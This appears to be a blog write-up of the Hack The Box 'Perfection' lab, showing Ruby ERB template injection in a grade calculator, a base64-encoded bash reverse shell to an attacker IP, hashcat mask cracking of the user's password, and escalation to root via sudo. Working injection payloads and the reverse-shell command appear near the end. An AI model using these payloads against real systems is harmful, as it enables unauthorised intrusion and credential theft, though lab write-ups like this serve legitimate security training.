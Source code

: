 +++
title = 'Perfection'
date = 2024-07-19T14:39:25+05:30
slug = "HTB-Perfection"
categories = ["hackthebox","Perfection","linux","Easy"]
+++

Startign with nmap 

![](https://drive.google.com/file/d/1H4Ozzfk26D-TLisbzn6UFx0dPFgK1K85/view?usp=sharing)

![](https://drive.google.com/file/d/1ez-_QjWwQaRnKszcVgHRs2sAZsehdo6l/view?usp=sharing)

the website dashboard

checked the wappalyzer to find the technologies website is using but couldn't find any 
I tried directory fuzzing 

Found this at the bottom of the website 
![](https://drive.google.com/file/d/1XKekjq8RdFUVWDVBGYfmmllhak3FhcRe/view?usp=sharing)

![](https://drive.google.com/file/d/1MQSBNGn20s5IBurU2BIGf9n__0UxAHqm/view?usp=sharing)

![](https://drive.google.com/file/d/1kmmjyqS_v8X98z5TG3JVlXTIT7pgEwYZ/view?usp=sharing)
we got another info that susan is sysadmin 

we can see this in the about us and there might me a vulnerability on secure coding
![](https://drive.google.com/file/d/1Z76wgF1M5i8oS2MdRN6VbODbjrpQj7LC/view?usp=sharing)

there is a input field in the website , there might be a input validation vulnerbility

let's do some rearch on the technologies the website is using WEBrick 
![](https://drive.google.com/file/d/1-tXUY8I75FXBDRBPFqlWvIBM6j8LQ-dX/view?usp=sharing)

but there is no information about vulnerbilities
![](https://drive.google.com/file/d/1LB_SVbYCZBDiPbWU0jh1IrSOu_p1aiqp/view?usp=sharing)


the above is the robots.txt file we got something intresting 

now we've gatherd information available in the website the next part will be testing the inputs

![](https://drive.google.com/file/d/1sKX0n8Mei8CJ1on8M8LUIqjDxRhHSMUy/view?usp=sharing)

i did burpsuite scan to get more information about the vulnerbilities and the results are 

![](https://drive.google.com/file/d/1qQrnqq_but1HKOR30nLu2fpYeXEZpvbt/view?usp=sharing)
to know how to perform a scan in burpsuite refer to [[scanning with burp scanner]]
so i confirmed that there is a way to bypass the input in the calculator

after adding single '  i got this result 
![](https://drive.google.com/file/d/1x2bhQUUHEfDAeznflZPafh1a9cevieHF/view?usp=sharing)

after bit of research i came to know that it is a SSTI vulnerbility (server side template injection)
refer [[SSTI vulnerbility]] 

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

search for ruby payloads in this website

![](https://drive.google.com/file/d/1-ZtkAYblN002JzRTdr6R7m3a7ckMo06q/view?usp=sharing)


let's try some payloads and see what happens
![](https://drive.google.com/file/d/160A-_UkBxBchLVrn80XcHw04rUrvwTgL/view?usp=sharing)

we've got same result let's keep trying
to encode select the characters and do ctrl+u to do url encoding
![](https://drive.google.com/file/d/17llt7hOYwgfPVSZ4yuXhqAK57gWCps5Y/view?usp=sharing)

i've multiplied 7* 7 and i got the result 49 so <%= 7* 7 %> payload works 

now let's add a linux command to thi payload to see if it works 

![](https://drive.google.com/file/d/1GMW_MAqGN427M-ty4bhGxprw-tyHZ9eM/view?usp=sharing)

we got susan as the username if we used whoami comamnd here

let's do ls and pwd to knwo the direcotries and present directory
to execute commands use  ` 'these 

![](https://drive.google.com/file/d/1XQ1cnnhUm4cdCai6uOakZoXJy-qANF4Z/view?usp=sharing)

we got some details

using revshells.com website i created a python payload and gave me shell access

![](https://drive.google.com/file/d/1SP6G7-nj29HlUBLMC2SOklAtJXEDgwA6/view?usp=sharing)

We can generate payload manually on our terminal refer to [[#Generate Payload]]

![](https://drive.google.com/file/d/1ffKj5C1p6-Yn_t5LESaAf5bjsmpBc8FN/view?usp=sharing)

to get neat terminal we did 
python3 -c 'import pty; pty.spawn("/bin/bash")'


we got the user flag now

![](https://drive.google.com/file/d/1yh68VzvzWqCARt5L8-ADB7WwLa9zp1XY/view?usp=sharing)

![](https://drive.google.com/file/d/1vlVdKldSKOXtIdvFbX6e4TOfrV_G5FE6/view?usp=sharing)

cracking password with hash cat  using this command
```
hashcat -m 1400 <hashhere> -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

![](https://drive.google.com/file/d/18F1U5iRRsMdEvrCHxNgdXrRZ4-FSGC89/view?usp=sharing)

refer [[Hashcat]] to learn using hashacat

after sometime we finally cracked hashcat password 
susan_nasus_413759210

![](https://drive.google.com/file/d/1owRoHi7T1qepla3ZahOU2Hx3_C-FgzFE/view?usp=sharing)


using sudo bash we switched to root user and got root flag
![](https://drive.google.com/file/d/17dVn3vNQeRGEPc67Zs_rm5Jp_w0xzUCF/view?usp=sharing)


### Generate Payload

Using hURL to encode and decode payloads demonstrates how we can mess around with data to take advantage of weaknesses in web applications.

Specifically, the payload we’re making for the Weighted Grade Calculator app is made to run a reverse shell command. This way, we can exploit any possible vulnerabilities that let us run code on the server’s side.

```
┌──(kali㉿kali)-[~]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.14.213/7373 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.14.213/7373 0>&1                                                                                                                                                     
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx

┌──(kali㉿kali)-[~]
└─$ hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx"

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx                                                                                                                                          
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx
```

```
category1=a%0A<%25%3Dsystem("ping+-c1+$myIP");%25>
```
the above is the another paylaod from the write up 
